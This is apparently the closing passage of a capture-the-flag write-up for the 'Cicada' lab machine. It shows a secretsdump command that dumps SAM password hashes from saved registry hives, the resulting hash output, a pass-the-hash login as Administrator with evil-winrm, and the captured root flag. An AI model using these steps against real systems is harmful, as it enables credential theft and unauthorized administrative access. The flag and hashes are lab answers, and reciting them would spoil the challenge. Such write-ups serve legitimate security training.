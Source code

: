 ### Dumping the registry hives

No we can dump those hives locally

```bash
secretsdump.py -sam SAM.save -system SYSTEM.save LOCAL
```

```bash
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Cleaning up... 
```

almost done, Administrator’s hash was found this way, lets login now

## Logging in as Administrator via pass the hash

```bash
evil-winrm -i cicada.htb -u 'Administrator' -H '2b87e7c93a3e8a0ea4a581937016f341'
```

grabbed root flag: `129cafa76c0b2261dd4c88a55b46138a`

proof:

![cicada_image.png](MediaFiles/cicada_image2.png)

---